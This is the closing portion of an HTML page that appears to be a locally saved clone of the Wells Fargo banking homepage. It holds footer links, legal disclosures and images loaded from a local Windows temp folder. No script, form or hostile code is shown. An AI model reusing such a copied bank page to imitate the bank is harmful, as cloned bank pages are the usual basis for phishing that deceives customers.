<DIV class=box style="HEIGHT: 240px; WIDTH: 414px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px"><IMG class=deferred style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="" src="https://www01.wellsfargomedia.com/assets/images/photography/lifestyle/wells-fargo-volunteer-gardening_414x240.jpg" data-deferred-src="https://www01.wellsfargomedia.com/assets/images/photography/lifestyle/wells-fargo-volunteer-gardening_414x240.jpg">
 <IMG class="deferred hide" style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 0px; BORDER-RIGHT: 0px; WIDTH: 0px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; LINE-HEIGHT: 0; PADDING-RIGHT: 0px; clip-path: inset(50%)" alt="" src="https://www01.wellsfargomedia.com/assets/images/homepage/stagecoach-two-drivers-field-green-414x240.jpg" 
data-deferred-src="https://www01.wellsfargomedia.com/assets/images/homepage/stagecoach-two-drivers-field-green-414x240.jpg">
 <IMG class="deferred hide" style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 0px; BORDER-RIGHT: 0px; WIDTH: 0px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; LINE-HEIGHT: 0; PADDING-RIGHT: 0px; clip-path: inset(50%)" alt="" src="https://www01.wellsfargomedia.com/assets/images/homepage/redress_414x240.jpg" 
data-deferred-src="https://www01.wellsfargomedia.com/assets/images/homepage/redress_414x240.jpg">
 <IMG class="deferred hide" style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 0px; BORDER-RIGHT: 0px; WIDTH: 0px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; LINE-HEIGHT: 0; PADDING-RIGHT: 0px; clip-path: inset(50%)" alt="" src="https://www01.wellsfargomedia.com/assets/images/homepage/three-men-volunteer-house-414x240.jpg" 
data-deferred-src="https://www01.wellsfargomedia.com/assets/images/homepage/three-men-volunteer-house-414x240.jpg">
 <IMG class="deferred hide" style="OVERFLOW: hidden; BORDER-TOP: 0px; CLIP: rect(1px 1px 1px 1px); HEIGHT: 0px; BORDER-RIGHT: 0px; WIDTH: 0px; WHITE-SPACE: nowrap; BORDER-BOTTOM: 0px; POSITION: absolute; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; BORDER-LEFT: 0px; LINE-HEIGHT: 0; PADDING-RIGHT: 0px; clip-path: inset(50%)" alt="" src="https://www01.wellsfargomedia.com/assets/images/homepage/woman-sitting-chair-tablet-screenshot-414x240.jpg" 
data-deferred-src="https://www01.wellsfargomedia.com/assets/images/homepage/woman-sitting-chair-tablet-screenshot-414x240.jpg"></DIV></DIV></DIV></DIV><FOOTER role=contentinfo style="DISPLAY: block">
<DIV id=pageFooter class="html5footer c9" style="BORDER-TOP: rgb(181,173,173) 1px solid; PADDING-BOTTOM: 0px; PADDING-TOP: 32px; PADDING-LEFT: 0px; MARGIN: 0px; PADDING-RIGHT: 0px; BACKGROUND-COLOR: rgb(244,240,237)">
<DIV class=c9content style="WIDTH: 970px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px auto; PADDING-RIGHT: 0px"><IMG role=img style="MARGIN-BOTTOM: 12px; BORDER-TOP: 0px; BORDER-RIGHT: 0px; WIDTH: 382px; BORDER-BOTTOM: 0px; BORDER-LEFT: 0px" alt="Together we'll go far" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/homepage_footer_stagecoach.svg"><NAV role=navigation style="DISPLAY: block"> 
<DIV class=html5nav style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<UL class=navList style="LIST-STYLE-TYPE: none; OVERFLOW: hidden; PADDING-BOTTOM: 0px; PADDING-TOP: 24px; PADDING-LEFT: 0px; MARGIN: 0px 0px 0px -14px; PADDING-RIGHT: 0px">
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/privacy-security/">Privacy, Cookies, Security &amp; Legal</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/privacy-security/notice-of-data-collection/">Notice of Data Collection</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/privacy-security/terms/">General Terms of Use</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/online-banking/online-access-agreement/" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">Online Access Agreement</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/privacy-security/privacy/online/#adchoices" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">Ad Choices</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/privacy-security/fraud/report/" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">Report Fraud</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/about/?linkLoc=footer" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">About Wells Fargo</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/about/careers/" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">Careers</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/about/diversity/" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">Diversity and Accessibility</A> </LI>
<LI style="WIDTH: auto; WHITE-SPACE: nowrap; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 16px; BORDER-LEFT: rgb(59,51,49) 1px solid; MARGIN: 0px 16px 11px -3px; DISPLAY: inline; LINE-HEIGHT: 1em; PADDING-RIGHT: 0px"><A style="TEXT-DECORATION: none; COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/sitemap" data-ctid="tcm:91-1866-32" data-cid="tcm:84-147007-16">Sitemap</A></LI></UL></DIV></NAV></DIV>
<DIV class=c42 style="PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; PADDING-RIGHT: 0px">
<DIV class=c20 style="WIDTH: 970px; COLOR: rgb(59,51,49); PADDING-BOTTOM: 20px; PADDING-TOP: 20px; PADDING-LEFT: 0px; CLEAR: left; MARGIN: 0px auto; PADDING-RIGHT: 0px">
<DIV class=socialIcons style="OVERFLOW: hidden; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px 0px 30px; PADDING-RIGHT: 0px"><A class=iconFacebook style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 24px; WIDTH: 22px; FLOAT: left; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 0px; PADDING-RIGHT: 16px" href="https://www.facebook.com/wellsfargo">
<IMG role=img class=facebookIcon style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: 0px; BORDER-LEFT: 0px; TOP: -48px" alt=Facebook src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"><SPAN>&nbsp;</SPAN>&nbsp;</A>
 <A class=iconLinkedIn style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 24px; WIDTH: 24px; FLOAT: left; MARGIN: 0px 16px 0px 0px" href="https://www.linkedin.com/company/wellsfargo"><IMG role=img class=linkedInIcon style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -37px; BORDER-LEFT: 0px; TOP: -48px" alt=LinkedIn src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"><SPAN>&nbsp;</SPAN>
 &nbsp;</A><A class=iconInstagram style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 24px; WIDTH: 24px; FLOAT: left; MARGIN: 0px 16px 0px 0px" href="https://instagram.com/wellsfargo/"><IMG class=instagramIcon style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -78px; BORDER-LEFT: 0px; TOP: -48px" alt=Instagram src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"><SPAN>&nbsp;</SPAN>
 &nbsp;</A><A class=iconPinterest style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 24px; WIDTH: 24px; FLOAT: left; MARGIN: 0px 16px 0px 0px" href="https://www.pinterest.com/wellsfargo/"><IMG class=pinterestIcon style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -118px; BORDER-LEFT: 0px; TOP: -48px" alt=Pinterest src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"><SPAN>&nbsp;</SPAN>
 &nbsp;</A><A class=iconYoutube style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 24px; WIDTH: 24px; FLOAT: left; MARGIN: 0px 16px 0px 0px" href="https://www.youtube.com/user/wellsfargo"><IMG class=youtubeIcon style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -158px; BORDER-LEFT: 0px; TOP: -48px" alt=YouTube src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"><SPAN>&nbsp;</SPAN>
 &nbsp;</A><A class=iconTwitter style="OVERFLOW: hidden; TEXT-DECORATION: none; HEIGHT: 24px; WIDTH: 34px; FLOAT: left; MARGIN-RIGHT: 0px" href="https://twitter.com/wellsfargo"><IMG class=twitterIcon style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -198px; BORDER-LEFT: 0px; TOP: -48px" alt=Twitter src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"><SPAN>&nbsp;</SPAN>&nbsp;</A></DIV>
<DIV class=c20body style="FONT-SIZE: 12px; MARGIN-BOTTOM: 23px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; CLEAR: left; PADDING-RIGHT: 0px" data-numbered="false">
<P style="POSITION: relative; MARGIN: 0px 0px 1em; LINE-HEIGHT: 16px; TOP: -1px">We provide links to external websites for convenience. Wells Fargo does not endorse and is not responsible for their content, links, privacy, or security policies.</P>
<P style="POSITION: relative; MARGIN: 25px 0px 1em; LINE-HEIGHT: 16px; TOP: -1px">Investment products and services are offered through Wells Fargo Advisors. Wells Fargo Advisors is a trade name used by Wells Fargo Clearing Services, LLC (WFCS) and Wells Fargo Advisors Financial Network, LLC, Members<SPAN>&nbsp;</SPAN><A style="COLOR: rgb(59,51,49)" href="https://www.wellsfargo.com/exit/sipc/">SIPC</A>, separate registered broker-dealers and non-bank affiliates of Wells Fargo &amp; Company.<SPAN>
 &nbsp;</SPAN><EM>WellsTrade</EM><SUP style="FONT-SIZE: 9px; VERTICAL-ALIGN: baseline; POSITION: relative; LINE-HEIGHT: 0; TOP: -0.35em">&reg;</SUP><SPAN>&nbsp;</SPAN>and Intuitive Investor<SUP style="FONT-SIZE: 9px; VERTICAL-ALIGN: baseline; POSITION: relative; LINE-HEIGHT: 0; TOP: -0.35em">&reg;</SUP><SPAN>&nbsp;</SPAN>accounts are offered through WFCS.</P></DIV>
<DIV class=c20notnot style="OVERFLOW: hidden; BORDER-TOP: rgb(0,0,0) 1px solid; BORDER-RIGHT: rgb(0,0,0) 1px solid; WIDTH: auto; BORDER-BOTTOM: rgb(0,0,0) 1px solid; FLOAT: left; COLOR: rgb(0,0,0); PADDING-BOTTOM: 13px; PADDING-TOP: 13px; PADDING-LEFT: 20px; CLEAR: both; BORDER-LEFT: rgb(0,0,0) 1px solid; MARGIN: 0px 0px 1.75em; PADDING-RIGHT: 20px"><STRONG style="FONT-WEIGHT: 700">Investment and Insurance Products are:</STRONG> 
<UL style="WIDTH: auto; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; MARGIN: 7px 0px 0px 1.2em; PADDING-RIGHT: 0px">
<LI style="MARGIN: 0px auto 0.5em; LINE-HEIGHT: 1.4em"><STRONG style="FONT-WEIGHT: 700">Not Insured by the FDIC or Any Federal Government Agency</STRONG> 
<LI style="MARGIN: 0px auto 0.5em; LINE-HEIGHT: 1.4em"><STRONG style="FONT-WEIGHT: 700">Not a Deposit or Other Obligation of, or Guaranteed by, the Bank or Any Bank Affiliate</STRONG> 
<LI style="MARGIN: 0px auto 0.5em; LINE-HEIGHT: 1.4em"><STRONG style="FONT-WEIGHT: 700">Subject to Investment Risks, Including Possible Loss of the Principal Amount Invested</STRONG></LI></UL></DIV>
<DIV class=c20body style="FONT-SIZE: 12px; MARGIN-BOTTOM: 23px; PADDING-BOTTOM: 0px; PADDING-TOP: 0px; PADDING-LEFT: 0px; CLEAR: left; PADDING-RIGHT: 0px" data-ctid="tcm:91-1924-32" data-cid="tcm:84-146986-16" data-numbered="false">
<P style="POSITION: relative; MARGIN: 25px 0px 1em; LINE-HEIGHT: 16px; TOP: -1px">Deposit products offered by Wells Fargo Bank, N.A. Member FDIC.</P></DIV>
<P class=equalHousingImg style="OVERFLOW: hidden; MARGIN: 0px 0px 1em; LINE-HEIGHT: 1.4em"><SPAN class=equalHousingIcon style="OVERFLOW: hidden; HEIGHT: 12px; WIDTH: 18px; DISPLAY: inline-block"><IMG style="BORDER-TOP: 0px; BORDER-RIGHT: 0px; BORDER-BOTTOM: 0px; POSITION: relative; LEFT: -186px; BORDER-LEFT: 0px; TOP: -10px" alt=icon-equal-housing src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/home_sprite_image.png"></SPAN><SPAN>&nbsp;</SPAN>
 <STRONG style="FONT-WEIGHT: 700">Equal Housing Lender</STRONG></P>
<P style="MARGIN: 25px 0px 1em; LINE-HEIGHT: 1.4em">&copy; 1999 - 2021 Wells Fargo. All rights reserved. NMLSR ID 399801</P></DIV></DIV></DIV></FOOTER></DIV>
<IMG style="FONT-SIZE: 12px; BORDER-TOP: 0px; FONT-FAMILY: Verdana, Arial, sans-serif; BORDER-RIGHT: 0px; WHITE-SPACE: normal; WORD-SPACING: 0px; BORDER-BOTTOM: 0px; TEXT-TRANSFORM: none; FONT-WEIGHT: 400; COLOR: rgb(67,67,67); FONT-STYLE: normal; BORDER-LEFT: 0px; ORPHANS: 2; WIDOWS: 2; LETTER-SPACING: normal; TEXT-INDENT: 0px; font-variant-ligatures: normal; font-variant-caps: normal; -webkit-text-stroke-width: 0px; text-decoration-thickness: initial; text-decoration-style: initial; 
text-decoration-color: initial" src="file:///C:/Users/Administrator/AppData/Local/Temp/2/Wells%20Fargo%20&#8211;%20Banking_files/s.gif">
 <IMG style="FONT-SIZE: 12px; BORDER-TOP: 0px; FONT-FAMILY: Verdana, Arial, sans-serif; BORDER-RIGHT: 0px; WHITE-SPACE: normal; WORD-SPACING: 0px; BORDER-BOTTOM: 0px; TEXT-TRANSFORM: none; FONT-WEIGHT: 400; COLOR: rgb(67,67,67); FONT-STYLE: normal; BORDER-LEFT: 0px; ORPHANS: 2; WIDOWS: 2; LETTER-SPACING: normal; TEXT-INDENT: 0px; font-variant-ligatures: normal; font-variant-caps: normal; -webkit-text-stroke-width: 0px; text-decoration-thickness: initial; text-decoration-style: initial; 
text-decoration-color: initial" src="file:///C:/assets/images/global/s.gif?log=1&amp;cb=1612266874858&amp;jsLogging=iaCallLog"></BODY></HTML>
